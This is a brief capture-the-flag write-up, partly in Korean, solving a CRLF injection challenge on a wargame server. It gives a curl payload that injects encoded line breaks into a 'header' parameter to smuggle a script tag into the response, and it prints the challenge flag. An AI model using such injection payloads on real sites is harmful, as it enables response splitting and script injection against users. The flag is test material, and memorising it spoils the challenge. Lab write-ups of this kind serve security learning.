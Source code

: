 ```wasm
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Mon, 16 Sep 2024 12:21:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 37
Connection: close

K0{CRLF_is_very_common_vulnerability}
```

그대로 경로만 `/report`로 바꿔줌

## Payload

```bash
curl -v http://war.knock-on.org:10013/report -d "header=header:%0d%0a%0D%0A<script>alert(1)</script>&value"
```

|

|

### FLAG

---

```bash
K0{CRLF_is_very_common_vulnerability}
```

|

---